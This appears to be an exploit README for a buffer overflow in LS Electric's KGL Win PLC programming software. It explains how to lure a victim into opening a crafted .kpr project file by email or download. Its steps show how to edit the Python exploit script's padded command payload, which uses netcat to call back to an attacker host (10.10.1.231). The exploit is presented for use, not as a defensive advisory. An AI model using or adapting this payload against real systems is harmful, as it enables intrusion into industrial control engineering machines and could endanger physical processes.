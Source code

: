 ## KGL Win Software Buffer Overflow Vulnerability

The KGL Win software is a tool provided by LS Electric, a South Korean company that offers PLCs (Programmable Logic Controllers) and other electrical equipment. KGL Win allows you to generate project files for programming PLCs. However, there is a vulnerability in the software that can be exploited through a buffer overflow.

### Understanding the Vulnerability:

The buffer overflow vulnerability in KGL Win arises when the software attempts to load a specially crafted malicious file. This can lead to an overflow of data into adjacent memory space, allowing an attacker to execute malicious code.

The specific attack described here was discovered using fuzzing techniques, which involve sending a large volume of random or carefully constructed inputs to find vulnerabilities in a target application.

To exploit this vulnerability, an attacker would need to entice the user of the target machine to open the malicious file using KGL Win. This can be achieved by sending the file as an email attachment or distributing it through a malicious download, for example.

### Instructions for Exploiting the Vulnerability:

1. **Generating the Malicious Project File**: Create a project file named "Performance_Enchanced_test.kpr" with the ".kpr" file extension. This file will trigger the buffer overflow when opened with KGL Win.

2. **Adjusting Server IP and Port**: If the IP address or port of the server changes, you need to modify the malicious project file accordingly. In this case, we are using the IP address "10.10.1.231" and the port "9999".

3. **Modifying the IP Address and Port**:
   - Open the "new_code_exploit.py" script.
   - Locate the following lines:
     ```python
     cmd = b'\x41\x41\x41\x41'  # pad
     cmd += b'cmd /c echo create | nc 10.10.1.231 6666'
     cmd += b'\x20\x20\x20\x20'
     cmd += b'\x20\x20\x20\x20'
     cmd += b'\x20\x20\x20\x20'
     cmd += b'\x00\x42\x42\x42'  # pad, 60 bytes
     ```
   - Update the IP address and port in the `cmd` variable as follows:
     ```python
     cmd = b'\x41\x41\x41\x41'  # pad
     cmd += b'cmd /c echo create | nc 10.10.1.231 9999'
     cmd += b'\x20\x20\x20\x20'
     cmd += b'\x20\x20\x20\x20'
     cmd += b'\x20\x20\x20\x20'
     cmd += b'\x00\x42\x42\x42'  # pad, 60 bytes
     ```
   - No additional padding is required because the `cmd` variable had the same length in both cases.

Once you have followed these instructions, the malicious project file can be used to exploit the buffer overflow vulnerability in KGL Win.
